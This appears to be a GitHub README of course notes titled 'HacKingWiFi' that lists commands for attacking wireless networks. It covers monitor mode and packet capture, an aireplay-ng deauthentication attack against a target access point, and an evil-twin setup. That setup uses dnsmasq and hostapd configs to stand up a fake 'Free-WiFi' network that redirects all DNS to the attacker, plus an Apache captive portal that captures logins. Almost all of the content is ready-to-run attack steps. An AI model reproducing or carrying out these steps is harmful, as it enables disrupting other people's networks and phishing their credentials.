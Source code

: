 # HacKingWiFi
## HacKingWiFi 
### Algorithm Commands to HacKing WiFi 

# [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

---

# [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`

---
  
# [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

---

# [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

---

# [5] Set Up Access point:
  - [5.1] Create dnsmasq Configuration files: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```
  - [5.2] Create hostpad Configuration file: `nano hostapd.conf` 
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
  - [5.3] Run Commands 1: `dnsmasq -C /directory_to_dnsmasq.conf`
  - [5.4] Run Commands 2: `hostapd /directory_to_hostapd.conf -B`
  - [5.5] `airbase-ng -e $WIRELESS_NETWORK -c $CHANNEL $INTERFACE` 

---

# [6] Setting up Captive Portal
  - [6.1] Download and Move Portal files to `/var/www/html`
  - [6.2] Edit `nano /etc/apache2/sites-enabled/000-default.conf` & Add to end of it:
```shell

<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>

```
  - [6.3] Start Apache2 Server: `sudo service apache2 start`
  - [6.4] Connect to `Free-WiFi`, and that will been automatically redirected to the logging page.
 
 ---
 
 - [WiFi Hacking using Evil Twin Attacks and Captive Portals](https://github.com/Anlominus/Studies/tree/main/Udemy/IT%20%26%20Software/Network%20%26%20Security/Security%20HacKing/WiFi%20Hacking%20using%20Evil%20Twin%20Attacks%20and%20Captive%20Portals)
